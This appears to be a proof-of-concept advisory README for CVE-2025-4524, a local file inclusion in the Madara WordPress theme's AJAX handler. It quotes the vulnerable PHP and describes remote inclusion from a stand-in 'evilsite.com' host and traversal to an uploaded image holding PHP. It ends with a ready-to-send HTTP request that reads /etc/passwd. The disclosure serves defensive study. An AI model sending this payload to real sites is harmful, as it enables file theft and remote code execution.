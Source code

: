 # CVE-2025-4524 - Unauthenticated madara-core Wordpress theme LFI

[WordFence link](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-themes/madara/madara-responsive-and-modern-wordpress-theme-for-manga-sites-222-unauthenticated-local-file-inclusion)

## Description
A vulnerability lies in `madara`'s `madara_load_more` action, where a `template` parameter is arbitrary data from the user and passed to PHP's `include` function.

## Vulnerability
A vulnerability lies in `madara`'s `madara_load_more` action, where a `template` parameter is arbitrary data from the user and passed to PHP's `include` function.


The vulnerable code is as follows:
```php
add_action( 'wp_ajax_madara_load_more', array( $this, 'ajax_load_next_page' ) );
add_action( 'wp_ajax_nopriv_madara_load_more', array( $this, 'ajax_load_next_page' ) );

...

function ajax_load_next_page() {
  ...
  
  if ( $query->have_posts() ) {
    while ( $query->have_posts() ) {
      $query->the_post();
      $madara_loop_index ++;
      set_query_var( 'madara_loop_index', $madara_loop_index );
      
      if ( $madara_loop_index < $posts_per_page + 1 ) {
        if ( ( strpos( $template, 'plugins' ) !== false ) ) {
          include( $template ); // we are in wp-content\themes\madara\app\{plugins} VULN
        } else {
          //$post_format = get_post_format() ? get_post_format : '';
          get_template_part( $template, get_post_format() );
        }
      }
    }

    if ( $query->post_count <= $posts_per_page ) {
      // there are no more posts
      // print a flag to detect
      echo '<div class="invi no-posts"><!-- --></div>';
    }
  } else {
    // no posts found
  }

  /* Restore original Post Data */
  wp_reset_postdata();
  die( '' );
}
```

On each successful query of `madara_load_more`, the template passed in by `template` will be rendered with the result. If the string `plugins` is seen in the `template` parameter, the input is passed as is to `include`, while if it is not present, Wordpress will find the template.

We can use this to query arbitrary files, either with `https://evilsite.com/plugins/evil.php` if `allow_url_include` is enabled, or via a path traversal. Since the current directory when doing this actions is ` wp-content/themes/madara/app/`, and a `plugins` directory exists, we can include something like `plugins/../../../../../wp-content/uploads/evil.png`.

## Exploit
This can be exploited depending on `allow_url_include`.

If it is enabled, a malicious actor can setup an HTTP server that replies with a malicious PHP script upon receptionof a request with the string `plugins`.

If it is disabled, a malicious actor can upload a file containing a PHP string (Image EXIF metadata, image pixel data, etc.) through other means on the Wordpress instance and include the file. This way, the image data will not be interpreted as PHP and only the PHP between tags will be. 

This can lead to RCE or LFI.


![image](https://github.com/user-attachments/assets/fb69c8c5-570a-41c3-8ecc-b53d07f0c140)

```http
POST /wp-admin/admin-ajax.php HTTP/2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 490

action=madara_load_more&page=1&template=plugins/../../../../../../../etc/passwd&vars%5Borderby%5D=meta_value_num&vars%5Bpaged%5D=1&vars%5Btimerange%5D=&vars%5Bposts_per_page%5D=16&vars%5Btax_query%5D%5Brelation%5D=OR&vars%5Bmeta_query%5D%5B0%5D%5Brelation%5D=AND&vars%5Bmeta_query%5D%5Brelation%5D=AND&vars%5Bpost_type%5D=wp-manga&vars%5Bpost_status%5D=publish&vars%5Bmeta_key%5D=_latest_update&vars%5Border%5D=desc&vars%5Bsidebar%5D=right&vars%5Bmanga_archives_item_layout%5D=big_thumbnail
```
